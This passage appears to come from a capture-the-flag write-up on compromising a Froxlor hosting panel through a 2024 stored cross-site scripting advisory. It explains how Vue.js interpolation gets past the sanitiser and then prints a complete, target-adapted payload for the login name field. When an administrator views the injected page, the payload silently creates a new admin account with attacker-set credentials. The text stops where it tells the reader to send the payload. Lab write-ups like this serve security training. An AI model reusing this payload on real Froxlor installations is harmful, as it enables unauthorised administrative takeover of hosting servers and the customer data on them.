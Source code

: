 
The site can be visited on the browser through `http:127.0.0.1:9000`, which reveals a Froxlor login page. Note: "127.0.0.1" is the only domain that will not direct the user to notice.html. Using localhost instead, for example, will direct the user to notice.html and will not make the login page accessible at all.


From the login page, the version of Froxlor which is used is not accessible at all. So research was performed to see if there are any Froxlor versions which are vulnerable to any public exploits. The first public exploit found is a remote code execution exploit on Exploit-DB. However, further researches points to another more recent exploit, a Cross Site Scripting (XSS) exploit released in 2024: https://github.com/froxlor/Froxlor/security/advisories/GHSA-x525-54hf-xr53.


This exploit appears to be published by a contributor to the Froxlor open source project. It contains steps on how to replicate the exploit. This vulnerability is exploited by sending a XSS payload to the loginname parameter of the POST request which is sent whenever the user attempts a login. 


The exploit is able to bypass the XSS sanitisation library employed by Froxlor by exploiting Vue.js interpolation, a feature which works similarly to how Jinja dynamically inserts values in a template. Within the template expression, a Javascript function is created and is only executed when the administrator user visits the page which contains the malicious injection. The function simply creates a POST request to "/admin_admins.php", which is an endpoint used for managing administrator user accounts. The request will add a new user with administrator privileges with credentials that the attacker sets. Hence, this effectively gives the attacker administrative access to the Froxlor application.


The payload can be downloaded as a text file on the same Github security advisory site where this vulnerability was reported. However, the contents of the payload have to be changed so that it sends the Javascript payload to the right place. The below payload was modified to work against the target machine in this box:


```bash
admin{{$emit.constructor`function+b(){var+metaTag%3ddocument.querySelector('meta[name%3d"csrf-token"]')%3bvar+csrfToken%3dmetaTag.getAttribute('content')%3bvar+xhr%3dnew+XMLHttpRequest()%3bvar+url%3d"/admin_admins.php"%3bvar+params%3d"new_loginname%3dabcd%26admin_password%3dAbcd%40%401234%26admin_password_suggestion%3dmgphdKecOu%26def_language%3den%26api_allowed%3d0%26api_allowed%3d1%26name%3dAbcd%26email%3dyldrmtest%40gmail.com%26custom_notes%3d%26custom_notes_show%3d0%26ipaddress%3d-1%26change_serversettings%3d0%26change_serversettings%3d1%26customers%3d0%26customers_ul%3d1%26customers_see_all%3d0%26customers_see_all%3d1%26domains%3d0%26domains_ul%3d1%26caneditphpsettings%3d0%26caneditphpsettings%3d1%26diskspace%3d0%26diskspace_ul%3d1%26traffic%3d0%26traffic_ul%3d1%26subdomains%3d0%26subdomains_ul%3d1%26emails%3d0%26emails_ul%3d1%26email_accounts%3d0%26email_accounts_ul%3d1%26email_forwarders%3d0%26email_forwarders_ul%3d1%26ftps%3d0%26ftps_ul%3d1%26mysqls%3d0%26mysqls_ul%3d1%26csrf_token%3d"%2bcsrfToken%2b"%26page%3dadmins%26action%3dadd%26send%3dsend"%3bxhr.open("POST",url,true)%3bxhr.setRequestHeader("Content-type","application/x-www-form-urlencoded")%3balert("Your+Froxlor+Application+has+been+completely+Hacked")%3bxhr.send(params)}%3ba%3db()`()}}
```


Send this payload in the loginname parameter of the POST request:

